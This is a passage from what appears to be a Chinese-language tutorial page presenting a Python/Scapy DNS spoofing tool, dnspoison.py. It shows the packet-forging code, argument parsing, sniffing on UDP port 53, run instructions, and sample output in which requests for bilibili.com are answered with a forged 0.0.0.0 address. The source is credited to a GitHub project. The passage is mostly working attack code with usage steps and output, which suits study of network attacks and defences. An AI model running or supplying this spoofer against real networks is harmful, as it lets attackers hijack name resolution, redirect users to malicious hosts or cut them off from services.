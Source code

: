 ```python
        			spoofed_pkt = Ether()/\
				IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
				UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
				DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa = 1, qr=1, an=DNSRR(rrname=pkt[DNS].qd.qname,  ttl=10, rdata=redirect_to))
        			sendp(spoofed_pkt,iface=interface)
        			print('Sent:', spoofed_pkt.show())
	return dnsspoof


parser=argparse.ArgumentParser(add_help=False)
parser.add_argument('-i',help='interface name',required=False)
parser.add_argument('-f',help='hostnames file',required=False)
parser.add_argument('--expression',help='BPF filter expression',required=False)
args=parser.parse_args()

if args.i:
	interface = args.i	
else:
	interface=netifaces.gateways()['default'][netifaces.AF_INET][1]

if args.expression:
	filterexpr='udp port 53 and ' + args.expression
else:
	filterexpr='udp port 53'

print(args)
print("Poisoning starting...")

sniff(filter=filterexpr, iface=interface, store=0, prn=spoofcallback(interface,args.f))
```

### 运行

```shell
python dnspoison.py [-i interface] [-f hostnames] expression
```

+ -i：指定网卡，省略则选择默认网卡。
+ -f：指定包含欺骗目标与伪造地址映射的hostnames文件。
+ expression：BPF语句，用于过滤流量。
+ eg：sudo python dnspoison.py -f hostnames

### 部分输出

+ 向后缀为bilibili.com的域名发出的请求，dnspoison会伪造rdata为0.0.0.0的数据包。

```
==========TARGET OCCUR==========
.
Sent 1 packets.
###[ Ethernet ]### 
  dst       = 00:50:56:fc:2c:03
  src       = 00:0c:29:2c:e1:85
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
```

[^1]: [SnehaPathrose/DNSSpoofAndDetect·github](https://github.com/SnehaPathrose/DNSSpoofAndDetect/tree/master)